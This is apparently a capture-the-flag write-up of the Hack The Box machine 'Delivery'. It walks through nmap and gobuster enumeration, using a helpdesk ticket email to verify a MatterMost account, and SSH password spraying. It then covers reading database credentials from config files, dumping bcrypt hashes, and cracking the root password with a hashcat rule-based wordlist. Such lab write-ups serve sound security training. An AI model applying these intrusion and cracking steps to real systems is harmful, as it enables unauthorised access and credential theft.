




# 00 - Loot

Credentials:

| Service               | Username      | Password              | Found at                                         |
| --------------------- | ------------- | --------------------- | ------------------------------------------------ |
| SSH \| Web - osTicket | maildeliverer | Youve_G0t_Mail!       | MatterMost internal channel                      |
| MySQL - MatterMost    | mmuser        | Crack_The_MM_Admin_PW | `/opt/mattermost/config/config.json`, SqlSetting |
| MySQL - osTicket      | ost_user      | !H3lpD3sk123!         | `/root/py-smtp.py`, automation script.           |

Valid Usernames

```

```

Emails

```

```

...

# 10 - Reconnaissance

## Port scanning - Nmap

### TCP

Full scan discovers three open ports: An SSH on port 22, an HTTP server on port 80, and an unknown service on port 8065

```
→ root@kali «delivery» «10.10.14.70» 
$ nmap -p- --min-rate 1000 -sV --reason -oA nmap/10-tcp-allport-delivery 10.10.10.222 
Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-21 14:58 EDT
Nmap scan report for 10.10.10.222
Host is up, received echo-reply ttl 63 (0.082s latency).
Not shown: 65532 closed ports
Reason: 65532 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    syn-ack ttl 63 nginx 1.14.2
8065/tcp open  unknown syn-ack ttl 63
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8065-TCP:V=7.80%I=7%D=5/21%Time=60A80336%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,DF3,"HTTP/1\.0\x20200\x20OK\r\nAccept-Ranges:\
SF:x20bytes\r\nCache-Control:\x20no-cache,\x20max-age=31556926,\x20public\
SF:r\nContent-Length:\x203108\r\nContent-Security-Policy:\x20frame-ancesto
SF:rs\x20'self';\x20script-src\x20'self'\x20cdn\.rudderlabs\.com\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nLast-Modified:\x20Fri,\x2021\
SF:x20May\x202021\x2015:21:16\x20GMT\r\nX-Frame-Options:\x20SAMEORIGIN\r\n
SF:X-Request-Id:\x20gbkzqdi31ffc9e5es4n9yzmtur\r\nX-Version-Id:\x205\.30\.
SF:0\.5\.30\.1\.57fb31b889bf81d99d8af8176d4bbaaa\.false\r\nDate:\x20Fri,\x
SF:2021\x20May\x202021\x2019:00:06\x20GMT\r\n\r\n<!doctype\x20html><html\x
SF:20lang=\"en\"><head><meta\x20charset=\"utf-8\"><meta\x20name=\"viewport
SF:\"\x20content=\"width=device-width,initial-scale=1,maximum-scale=1,user
SF:-scalable=0\"><meta\x20name=\"robots\"\x20content=\"noindex,\x20nofollo
SF:w\"><meta\x20name=\"referrer\"\x20content=\"no-referrer\"><title>Matter
SF:most</title><meta\x20name=\"mobile-web-app-capable\"\x20content=\"yes\"
SF:><meta\x20name=\"application-name\"\x20content=\"Mattermost\"><meta\x20
SF:name=\"format-detection\"\x20content=\"telephone=no\"><link\x20re")%r(H
SF:TTPOptions,5B,"HTTP/1\.0\x20405\x20Method\x20Not\x20Allowed\r\nDate:\x2
SF:0Fri,\x2021\x20May\x202021\x2019:00:07\x20GMT\r\nContent-Length:\x200\r
SF:\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n
SF:400\x20Bad\x20Request")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close
SF:\r\n\r\n400\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCon
SF:nection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:);
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 160.00 seconds
→ root@kali «delivery» «10.10.14.70» 
$ nmap -p22,80,8065 --min-rate 1000 -sC --reason -oA nmap/10-tcp-allport-delivery 10.10.10.222
Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-21 15:06 EDT
Nmap scan report for 10.10.10.222
Host is up, received echo-reply ttl 63 (0.45s latency).

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp   open  http    syn-ack ttl 63
|_http-title: Welcome
8065/tcp open  unknown syn-ack ttl 63

Nmap done: 1 IP address (1 host up) scanned in 5.05 seconds
```

Poking port 8065 with `curl` shows it's a web app.

```
→ root@kali «delivery» «10.10.14.70» 
$ curl -sI 10.10.10.222:8065
HTTP/1.1 405 Method Not Allowed
Date: Fri, 21 May 2021 19:09:14 GMT
```


### UDP

Nothing interesting.

```
 root@kali «delivery» «10.10.14.70» 
$ nmap -sU -sV -n --top-ports 20 -oA nmap/10-udp-top20-delivery 10.10.10.222
Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-21 15:12 EDT
Nmap scan report for 10.10.10.222
Host is up (0.26s latency).

PORT      STATE         SERVICE      VERSION
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    closed        dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   closed        snmp
162/udp   closed        snmptrap
445/udp   closed        microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   open|filtered ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp closed        unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.86 seconds
```


# 15 - Enumeration


## TCP 80 - Website

A static web title called "Delivery".


The text  `HELPDESK` points to `http://helpdesk.delivery.htb/`. Clicking on "CONTACT US" flips the homepage to this views:


The `MatterMost server` points to `delivery.htb:8065`.

All `href` tags with links

```
→ root@kali «delivery» «10.10.14.70» 
$ curl -s 10.10.10.222 | grep -Eo 'href="[^\"]+"' | grep -v '#'
href="assets/css/main.css"
href="assets/css/ie9.css"
href="assets/css/noscript.css"
href="http://helpdesk.delivery.htb"
href="http://helpdesk.delivery.htb"
href="http://delivery.htb:8065"
href="https://html5up.net"
```

Update /etc/hosts

```
→ root@kali «delivery» «10.10.14.70» 
$ echo '10.10.10.222 delivery.htb helpdesk.delivery.htb' > /etc/hosts
```

Poking the newly discovered hostnames.

```
→ root@kali «delivery» «10.10.14.70» 
$ curl -s http://10.10.10.222/ | wc -c
10850
→ root@kali «delivery» «10.10.14.70» 
$ curl -s http://delivery.htb/ | wc -c
10850
→ root@kali «delivery» «10.10.14.70» 
$ curl -s http://helpdesk.delivery.htb/ | wc -c
4933
```

### Gobuster

```
→ root@kali «delivery» «10.10.14.70» 
$ gobuster dir -u http://delivery.htb/ -w /opt/SecLists/Discovery/Web-Content/raft-small-directories-lowercase.txt -o gobuster/delivery-htb-S-80
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://delivery.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-small-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/21 15:45:17 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 185] [--> http://delivery.htb/images/]
/assets               (Status: 301) [Size: 185] [--> http://delivery.htb/assets/]
/error                (Status: 301) [Size: 185] [--> http://delivery.htb/error/] 
                                                                                 
===============================================================
2021/05/21 15:47:28 Finished
===============================================================
```


## TCP 80 - helpdesk.delivery.htb

Presented with a support ticketing system. At the bottom of the page it shows powered by [osTicket](https://osticket.com/).


The "Open a New Ticket" menu.


The "Check Ticket Status" menu.


Based on the message at `http://delivery.htb/#contact-us`,

```
For unregistered users, please use our HelpDesk to get in touch with our team. Once you have an @delivery.htb email address, you'll be able to have access to our MatterMost server.
```

### Open a New Ticket


Ticket created:

- Ticket id: 4709941
- Email:4709941@delivery.htb.


### Check Ticket

Requested ticket is accessible.


### Finding vulnerabilities - Exploit-DB

The app source code is available on Github: https://github.com/osTicket/osTicket. 

Admin access is required to find the version.

Search limited based on the box release (9 January 2021):


Mostly XSS which required a user interaction.

## TCP 8065 - MatterMost

> Mattermost is an open-source, self-hostable online chat service with file sharing, search, and integrations. 

Account required.


For sign up it required a valid email


It needs email verification.


# 20 - Foothold

## Access to MatterMost via Ticket Trick

Reference: https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c

The idea here is to use the random email address given by the support ticket system (4709941@delivery.htb) for the email verification process on MatterMost.


The verification sent to `4709941@delivery.htb`.


The verification link now available at the Helpdesk ticket thread.


Visiting `http://delivery.htb:8065/do_verify_email?token=eoy11mus8h6m4hctpmwt9qw31cdsfcxzbg7noyc5gzpc6htp9e8mqe55wwewaju9&email=4709941%40delivery.htb` redirects back to MatterMost and the email from ticket system has been verified.


The Internal channel contains sensitive information and hints.


## Password Spray 


```
→ root@kali «delivery» «10.10.14.70» 
$ crackmapexec ssh 10.10.10.222 -u users.list -p passwords.list --continue-on-success
SSH         10.10.10.222    22     10.10.10.222     [*] SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
SSH         10.10.10.222    22     10.10.10.222     [-] root:Youve_G0t_Mail! Authentication failed.
SSH         10.10.10.222    22     10.10.10.222     [-] root:PleaseSubscribe! Authentication failed.
SSH         10.10.10.222    22     10.10.10.222     [+] maildeliverer:Youve_G0t_Mail! 
SSH         10.10.10.222    22     10.10.10.222     [-] maildeliverer:PleaseSubscribe! Authentication failed.
```

## SSH - maildeliverer

```
→ root@kali «delivery» «10.10.14.70» 
$ ssh maildeliverer@delivery.htb
...<SNIP>...
maildeliverer@delivery.htb's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

...<SNIP>...
Last login: Fri May 21 14:11:23 2021 from 10.10.16.16
maildeliverer@Delivery:~$ id
uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
maildeliverer@Delivery:~$ ls -l
total 4
-r-------- 1 maildeliverer maildeliverer 33 May 21 11:21 user.txt
maildeliverer@Delivery:~$ 
```


# 25 - Privilege Escalation

## Internal Enumeration

### Basics

Users:

```
maildeliverer@Delivery:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
maildeliverer:x:1000:1000:MailDeliverer,,,:/home/maildeliverer:/bin/bash
mattermost:x:998:998::/home/mattermost:/bin/sh
maildeliverer@Delivery:/home$ ls -la
total 12
drwxr-xr-x  3 root          root          4096 Dec 26 09:01 .
drwxr-xr-x 18 root          root          4096 Jan  5 06:06 ..
drwxr-xr-x  3 maildeliverer maildeliverer 4096 May 21 17:58 maildeliverer
```

`sudo -l`:

```
maildeliverer@Delivery:/opt/mattermost/config$ sudo -l
[sudo] password for maildeliverer: 
Sorry, user maildeliverer may not run sudo on Delivery.
```

OS:

```
maildeliverer@Delivery:~$  uname -a
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64 GNU/Linux
maildeliverer@Delivery:/opt/mattermost/config$ cat /etc/*release
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
NAME="Debian GNU/Linux"
VERSION_ID="10"
VERSION="10 (buster)"
VERSION_CODENAME=buster
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"

```

Network 

```
maildeliverer@Delivery:~$  netstat -tlpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1025          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
tcp6       0      0 :::8065                 :::*                    LISTEN      -
```


### Home directory

```
maildeliverer@Delivery:~$ ls -la
total 36
drwxr-xr-x 3 maildeliverer maildeliverer 4096 May 21 15:09 .
drwxr-xr-x 3 root          root          4096 Dec 26 09:01 ..
lrwxrwxrwx 1 root          root             9 Dec 28 07:04 .bash_history -> /dev/null
-rw-r--r-- 1 maildeliverer maildeliverer  220 Dec 26 09:01 .bash_logout
-rw-r--r-- 1 maildeliverer maildeliverer 3526 Dec 26 09:01 .bashrc
drwx------ 4 maildeliverer maildeliverer 4096 May 21 14:10 .gnupg
-rw------- 1 maildeliverer maildeliverer  254 May 21 15:09 .mysql_history
-rw-r--r-- 1 maildeliverer maildeliverer  807 Dec 26 09:01 .profile
-r-------- 1 maildeliverer maildeliverer   33 May 21 11:21 user.txt
-rw------- 1 maildeliverer maildeliverer  805 May 21 14:12 .viminfo
maildeliverer@Delivery:~$
```

Contents of `.mysql_history`:

```
maildeliverer@Delivery:~$ cat .mysql_history 
ls
show tables
bye
show databases;
use mattermost
show tables
show database;
show databases;
use mattermost;
show tables;
select * from Users;
select Username,Password from Users;
select username,Password from Users;
select username,password from Users;
```

Content ofs `.viminfo`:

```
maildeliverer@Delivery:~$ cat .viminfo | grep -v '^#'

|1,4

*encoding=utf-8


~h
:q!
|2,0,1621620739,,"q!"


'0  1  0  /opt/mattermost/bin/mattermost
|4,48,1,0,1621620739,"/opt/mattermost/bin/mattermost"

-'  1  0  /opt/mattermost/bin/mattermost
|4,39,1,0,1621620739,"/opt/mattermost/bin/mattermost"


> /opt/mattermost/bin/mattermost
        *       1621620736      0
        "       1       0
```

### /opt/MatterMost

Config files at /opt/mattermost/ 

```
maildeliverer@Delivery:/opt/mattermost/config$ grep -Ri "pass"
config.json:    "PasswordSettings": {
config.json:        "SMTPPassword": "",
config.json:        "BindPassword": "",
config.json:        "Password": "changeme",
config.json:            "SmtpPassword": "",
```

Database configuration: https://docs.mattermost.com/administration/config-in-database.html

```
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json | grep SqlSetting -A10
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,

```

### MySQL

Connects

```
maildeliverer@Delivery:/opt/mattermost/config$ mysql mattermost -u mmuser -pCrack_The_MM_Admin_PW
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 395
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [mattermost]>
```

Users table dump:

```
MariaDB [mattermost]> select Username,Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| testmail                         | $2a$10$gSBaz3a76sX.ikqynx4E7O2NYn9.q6fcSopTwYP672lJMSbZ6.IQa |
| help                             | $2a$10$zsb4KbggZbpQi2Wa8W0.C.lHVJxiUBr6cyNFbDbWu11j6JBJrVkpm |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| aaaa                             | $2a$10$yIdqqOXl.5dcWsXk.Doo2ewl.zTFdsDd2F0.c44iWOpGMIgmDTsY6 |
| iiamf                            | $2a$10$esA8d/l5.IKQJIhnl2SeYeeoFaCOE6Z/esUOSuRb.Vqtkf3gvbli6 |
| iamf                             | $2a$10$ZYEM.GLMnAfq8eM.2rs8q.e/q3bHaOVOCvlu7YGhU0rU0Ug4PME9a |
+----------------------------------+--------------------------------------------------------------+
12 rows in set (0.000 sec)

MariaDB [mattermost]>
```

## Password Cracking

### Creating Custom Wordlist

Hints:



I remember exactly that ippsec has shown several techniques on how to generate a variant of "seasonal passwords" on Forest https://www.youtube.com/watch?v=H9FcE_FMZio&t=730s.

Password length is 15

```
→ root@kali «delivery» «10.10.14.70»
$ echo -n 'PleaseSubsribe!' | wc -c
15
```

Generate variant wordlist with best64 rules and take out the generated words which has length greater than 15.

```
→ root@kali «delivery» «10.10.14.70»
$ echo 'PleaseSubscribe!' > IppsecSubscriber
→ root@kali «delivery» «10.10.14.70»
$ hashcat IppsecSubscriber -r /usr/share/hashcat/rules/best64.rule --stdout | awk 'length($0) > 15' > custom_wordlist
```

46 words has been generated

```
→ root@kali «delivery» «10.10.14.70»
$ wc -w custom_wordlist
46 custom_wordlist
```

Cracked instantly.

```bash
C:\tools\hashcat6>hashcat.exe -m 3200 '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO' custom_wordlist --force

...<SNIP>..
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21

Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Mon Mar 15 21:36:35 2021 (1 sec)
Time.Estimated...: Mon Mar 15 21:36:36 2021 (0 secs)
...<SNIP>...
```

The password is `PleaseSubscribe!21`

## SU - root

```
maildeliverer@Delivery:~$ su root
Password: 
root@Delivery:/home/maildeliverer# id
uid=0(root) gid=0(root) groups=0(root
```

Root flag

```
root@Delivery:/home/maildeliverer# cd ~
root@Delivery:~# ls -l
total 16
-rwxr-x--- 1 root root  103 Dec 26 11:26 mail.sh
-r-------- 1 root root  382 Dec 28 07:02 note.txt
-rw-r----- 1 root root 1499 Dec 26 10:55 py-smtp.py
-r-------- 1 root root   33 May 21 11:21 root.txt
root@Delivery:~# cat *.txt
I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high risk vulnerability I've seen several times.  The inspiration for the box is here: 

- https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c 

Keep on hacking! And please don't forget to subscribe to all the security streamers out there.

- ippsec
a7d68baadc3b3c072c6...<SNIP>...
```



# 30 - Post-Exploit

## Databases

```
root@Delivery:~# mysql osticket -u ost_user -p'!H3lpD3sk123!'
```

Dump the password hashes

```
MariaDB [osticket]> select username,passwd from ost_user_account;
+----------+--------------------------------------------------------------+
| username | passwd                                                       |
+----------+--------------------------------------------------------------+
| NULL     | $2a$08$Oggk/qZPmIPq0YvSWlaBgeWMncFAJWikYunhZm5JA6JJj73CvaCoe |
| NULL     | $2a$08$4gprUQ3lASBjj6D9Wfsf8eaYV78znQVJnh7.fi.qDtgNYwsN0wD6a |
| NULL     | $2a$08$uFwb.ImRDz4nwinqRyRvs.Nk0gOU4zrEVGKM7HuGBp86Xax0xaduO |
| NULL     | $2a$08$cEru5y3Z7MwZdRwCWezTa.X0yaL2UJkhzLgaQ9U6gZUyTzsRMaWFe |
| NULL     | $2a$08$iBBzWTz1DnJV5cBb9lBiMeN8WKjiv7lhJWqiDVzVHqrPoprri2222 |
+----------+--------------------------------------------------------------+
5 rows in set (0.000 sec)

MariaDB [osticket]> select isadmin,username,passwd from ost_staff;
+---------+---------------+--------------------------------------------------------------+
| isadmin | username      | passwd                                                       |
+---------+---------------+--------------------------------------------------------------+
|       1 | maildeliverer | $2a$08$VlccTgoFaxEaGJnZtWwJBOf2EqMW5L1ZLA72QoQN/TrrOJt9mFGcy |
+---------+---------------+--------------------------------------------------------------+

```


## OsTicket



Version found


## Trolling



# 90 - Summary

Foothold: 

- 
- 

Privilege Escalation:

- 
- 

# 99 - Trial-error/Try list

> What to put here:
>
> - Options you want to try (upper=highest priority, lower=try later)
> - Track things you have tried but failed.
> - Tips/Trick you learned during completing the box.
> - Take a rest if you keep putting/looking your note in here for more than 45 minutes.